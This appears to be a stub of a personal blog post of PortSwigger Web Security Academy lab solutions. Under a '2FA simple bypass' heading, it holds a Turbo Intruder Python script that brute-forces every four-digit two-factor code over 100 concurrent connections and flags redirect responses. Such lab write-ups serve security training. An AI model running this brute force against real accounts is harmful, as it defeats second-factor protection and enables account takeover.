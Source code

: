 ```yaml
---
layout: post
title:  "PortSwigger WebSecurity Academy"
date:   2021-09-12
categories: 
---
```


{% capture details %}
{% highlight python linenos=table %}
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           requestsPerConnection=1,
                           pipeline=True
                           )
    engine.start()

    for i in range(10000):
        engine.queue(target.req, '{0:04}'.format(i))

def handleResponse(req, interesting):
    if '302' in req.response:
        table.add(req)

{% endhighlight %}
{% endcapture %}
{% capture summary %} 
### 2FA simple bypass
{% endcapture %}{% include details.html %}